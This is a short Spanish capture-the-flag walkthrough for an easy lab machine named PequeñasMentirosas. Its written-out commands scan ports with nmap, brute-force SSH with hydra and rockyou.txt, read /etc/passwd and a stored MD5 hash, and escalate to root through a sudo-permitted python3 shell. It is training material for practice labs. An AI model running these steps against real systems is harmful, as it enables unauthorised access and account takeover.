 Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil


Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

Usamos hydra.

hydra -l "a" -P /home/ankb/Documents/rockyou.txt ssh://172.17.0.2 

Encontramos la contrasena para el usuario y enctramos por ssh.

ssh a@172.17.0.2
secret

Si vemos los usuarios que existen, encontramos spencer.

cat /etc/passwd | grep "sh$"

Hacemos una busqueda de archivos .txt de la siguiente manera find / -name *.txt 2>/dev/null

ls | xargs cat

cat hash_spencer.txt

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

Cambiamos al usuario spencer

su spencer
password1

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami
